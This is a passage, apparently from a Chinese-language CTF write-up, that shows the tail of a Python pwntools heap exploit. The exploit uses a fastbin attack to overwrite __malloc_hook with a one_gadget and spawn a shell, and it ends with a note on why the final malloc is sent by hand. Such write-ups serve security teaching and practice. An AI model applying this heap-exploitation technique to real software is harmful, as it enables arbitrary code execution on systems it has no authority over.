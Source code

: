 ```python
malloc_hook=libc_addr-0x678
print(hex(malloc_hook))
libc_base=malloc_hook-libc.sym[b'__malloc_hook']
print(hex(libc_base))

# addedit(0x60,b'a')
freeptr()
editptr(0x8,p64(malloc_hook-0x23))
# gdb_attach()
ogg=[0x4527a,0xf03a4,0xf1247]
addedit(0x60,p64(0))

payload=b'a'*0x13+p64(libc_base+ogg[1])
addedit(0x59,payload)

link.recvuntil(b'choice:')
link.sendline(b'1')
link.recvuntil(b'content:')
link.send(b'1')

link.interactive()
```

细节：最后调用 malloc 时不能接着用脚本前面定义的 addedit 函数，因为一 malloc 就执行 one_gadget 了，不会有后面的回显，用 addedit 来调用 malloc 会卡在 recvuntil 不动


